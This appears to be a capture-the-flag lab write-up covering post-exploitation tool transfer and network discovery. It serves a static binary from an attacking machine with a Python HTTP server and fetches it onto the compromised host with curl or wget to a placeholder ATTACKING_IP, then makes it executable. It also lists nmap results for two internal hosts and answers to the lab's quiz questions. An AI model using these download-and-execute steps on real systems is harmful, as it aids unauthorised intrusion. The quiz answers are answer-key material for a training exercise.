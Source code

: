 ==> go to the directory where you static binary presence open teminal here and user command 

command: sudo python3 -m http.server 80

## Note dont close the terminal.close it when you download the binary to the compromise system

## Above command open a port 80 on your system and create a server to the directory where you binaries are presence so just use the following commnand to your compromise system to download the file 

command: curl {ATTACKING_IP}/{file name} -o /tmp/nmap-USERNAME && chmod +x /tmp/{file name}


{ATTACKING_IP}: attacking ip is your attacking machine ip 

{file name}: file name is your binary name ## case sensitive

-o : this flag is use to save the binary to the path 

&& chmod +x : this is use to make your binary executable 

## you can use wget command to download the file also 

command: wget http://attacking_ip/binary_name

this command save the binary your corrent directry

## nmap scan report shows to ip excluding other that are not use 

IP Addr 1 = (10.200.104.100) MAC Address: 02:BC:EC:04:FA:2B 
IP Addr 2 = (10.200.104.150) MAC Address: 02:9C:29:A9:96:67

Q1: Excluding the out of scope hosts, and the current host (.200), how many hosts were discovered active on the network?
A: 2

Q2: In ascending order, what are the last octets of these host IPv4 addresses? (e.g. if the address was 172.16.0.80, submit the 80)
A: 100,150

Nmap scan report of machine 1


all 1500 port are filtered

Nmap scan report of machine 2

PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
5357/tcp open  wsdapi
5985/tcp open  wsman
MAC Address: 02:F4:7E:8B:78:3F (Unknown)

